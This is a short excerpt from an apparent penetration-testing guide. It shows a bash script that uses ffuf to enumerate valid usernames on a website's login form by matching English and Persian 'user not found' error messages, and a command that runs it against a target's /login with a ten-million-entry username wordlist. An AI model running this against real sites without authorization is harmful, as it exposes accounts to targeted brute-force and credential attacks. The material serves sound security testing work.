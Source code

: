 ```bash

# Run ffuf with constructed parameters
if [[ "$METHOD" == "get" ]]; then
    FFUF_URL="${FULL_ACTION}?${DATA}"
    ffuf -u "$FFUF_URL" \
         -w "$USERLIST:FUZZ1" \
         -X GET \
         -ac -c -r \
         -mc 200 \
         -mr "invalid username|user not found|unknown user|no such user|نام کاربری اشتباه|کاربر یافت نشد" \
         "${HEADERS[@]}"
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -X POST \
         -d "$DATA" \
         -ac -c -r \
         -mc 200 \
         -mr "invalid username|user not found|unknown user|no such user|نام کاربری اشتباه|کاربر یافت نشد" \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x nu-user-enum.sh;sudo ./nu-user-enum.sh $WEBSITE/login \
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
